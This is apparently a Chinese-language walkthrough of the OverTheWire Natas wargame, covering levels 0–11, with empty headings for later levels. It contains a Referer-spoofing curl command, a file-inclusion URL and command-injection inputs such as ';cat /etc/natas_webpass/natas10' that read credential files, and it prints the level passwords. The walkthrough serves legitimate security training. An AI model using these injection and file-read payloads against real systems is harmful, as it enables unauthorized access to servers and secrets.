


# level0
直接登录，然后查看网页源代码

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas0", "pass": "natas0" };</script></head>
<body>
<h1>natas0</h1>
<div id="content">
You can find the password for the next level on this page.

<!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 -->
</div>
</body>
</html>
```

# level1
不让右键了

那就按F12啊

```
<!--The password for natas2 is h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7 -->
```
# level2
说啥也没有

还是看源码
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas2", "pass": "h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7" };</script></head>
<body>
<h1>natas2</h1>
<div id="content">
There is nothing on this page

</div>
</body></html>
```
有个图片，点进去看，进父目录
```
http://natas2.natas.labs.overthewire.org/files/

```

得到密码
```
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```
# level3
源代码啥也没有，很G
```

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas3", "pass": "G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q" };</script></head>
<body>
<h1>natas3</h1>
<div id="content">
There is nothing on this page
<!-- No more information leaks!! Not even Google will find it this time... -->
</div>
</body></html>
```
谷歌搜不到？我必应来搜！

进去是一个和level2一样的界面，解决了。。。
```
natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```
这个题需要知道`site:`这个高级搜索用法
# level4

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
然后一条命令解决
```
C:\Users\>curl -e "http://natas5.natas.labs.overthewire.org/" -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm "http://natas4.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>

C:\Users\>
```
另一种方法则是使用burpsuite,自己发包

# level5
发现需要cookie

那么随便改改也就解决了

```
Access granted. The password for natas6 is fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```
# level6
进来可以看源代码
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "<censored>" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
这里与密钥有一个是否相同的判断，那么直接访问那个网址`includes/secret.inc`，得到密钥
```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```
然后输入，得到密码
```
Access granted. The password for natas7 is jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```
# level7
登录后源码
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas7", "pass": "jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr" };</script></head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```
这个提示，很有这个网站的风格。。。
```
# 访问网址http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
# 密钥
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
```
# level8
核心在下边儿
```

<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```
strrev函数的[说明](https://www.runoob.com/php/func-string-strrev.html)，就是反转字符串。

因此，建议找一些在线小工具做下面的操作
```
<?php
echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));
?>
```
输出结果后，得到密钥
```
Access granted. The password for natas9 is Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```
# level9
```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
直接命令注入
```
输入;cat /etc/natas_webpass/natas10
```
得到密钥
```
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```
# level10
他们学聪明了
```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
就是写正则，水的
```
[a-zA-Z] /etc/natas_webpass/natas11 #
[[:alpha:]] /etc/natas_webpass/natas11 #
```

```
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```
# level11
代码审计工作如下：
```
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);


?>
```

# level12

```

```

# level13

```

```
# level14

```

```

# level15

```

```
# level16

```

```

# level17

```

```
# level18

```

```

# level19

```

```
# level20

```

```

# level21

```

```
# level21

```

```

# level23

```

```
# level24

```

```

# level25

```

```
# level26

```

```

# level27

```

```
# level28

```

```

# level29

```

```
# level30

```

```

# level31

```

```
# level32

```

```

# level33

```

```


